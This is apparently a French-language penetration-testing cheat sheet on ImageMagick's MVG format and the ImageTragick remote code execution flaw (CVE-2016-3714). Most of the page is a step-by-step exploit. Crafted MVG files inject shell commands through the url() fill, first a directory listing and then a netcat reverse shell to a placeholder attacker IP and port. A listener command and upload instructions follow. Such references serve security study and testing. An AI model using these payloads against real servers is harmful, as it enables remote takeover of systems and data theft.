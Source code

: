 # MVG

<img src="logo_imagemagick.png" title="" alt="" height="200">

**Facteur de risque** : RCE

**Extensions** : `.mvg`

**Description** : Le **Magick Vector Graphics** ou **MVG** est un langage permettant d'écrire des graphiques vectoriels bidimensionnels pour le logiciel **ImageMagick**. Exemlple :

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg)'
pop graphic-context
```

## Sommaire

- ImageTragick

## RCE : ImageTragick CVE-2016–3714

<img src="logo_imagetragick.png" title="" alt="" height="200">

**ImageMagick** est un logiciel utilisé pour créer, modifier (redimensionner), convertir ou afficher des fichiers d'images dans un très grand nombre de formats.

ImageMagick possède plusieurs failles, donc une qui permet d'exécuter du code arbitraire à distance : https://imagetragick.com

### Pré-requis

- ImageMagick <= 6.9.3-9 est utilisé par le serveur web

### Exploitation

1. Copier le code suivant, qui permet de lister le répertoire :
   
   ```shell
   push graphic-context
   viewbox 0 0 640 480
   fill 'url(https://example.com/image.jpg";|ls "-la)'
   pop graphic-context
   ```
   
    La fonction `url()` est censé contenir l'URL d'une image (`https://example.com/image.jpg`). Ici on injecte le code `";|ls "-la` pour lister le répertoire.

2. Téléverser ce fichier sur l'application.

Comme l'exploitation se passe au moment du téléversement, l'utilisateur peut ne pas voir pas le résultat des commandes. Mais un **reverse shell** est possible !

1. Copier le code suivant :
   
   ```shell
   push graphic-context
   viewbox 0 0 640 480
   fill 'url(https://example.com/image.jpg";|nc -e /bin/sh IP_ADDRESS "PORT)'
   pop graphic-context
   ```
   
   La fonction `url()` est censé contenir l'URL d'une image (`https://example.com/image.jpg`). Ici, on injecte le code `";|nc -e /bin/sh IP_ADDRESS_HERE "PORT_HERE` pour avoir un reverse shell.

2. Remplacer `IP_ADRESS` et `PORT` dans le code (faire attention aux guillemets présents), puis enregistrer sous forme d'image (**rce.mvg**). Par exemple :
   
   ```shell
   fill 'url(https://example.com/image.jpg";|nc -e /bin/sh 127.0.0.1 "1234)'
   ```

3. Écouter votre port :
   
   ```shell
   nc -lnvp 1234
   ```

4. Téléverser ce fichier sur l'application. 
   Au moment du téléversement, ImageMagick va traiter l'image, et exécuter en le code.

## References

- 
- ImageTragick : 
  - https://imagetragick.com
  - [GitHub - ImageTragick/PoCs: Proof of Concepts for CVE-2016–3714](https://github.com/ImageTragick/PoCs)
  - [oss-security - Re: ImageMagick Is On Fire -- CVE-2016-3714](https://www.openwall.com/lists/oss-security/2016/05/03/18)

## Todo

- AJouter les autres vulnérabilités d'ImageMagick

- Ajouter pour les autres types d'images d'ImageMagick : PNG, JPEG, GIF, HEIC, TIFF, [DPX](https://imagemagick.org/script/motion-picture.php), [EXR](https://imagemagick.org/script/high-dynamic-range.php), WebP, Postscript, PDF, and SVG
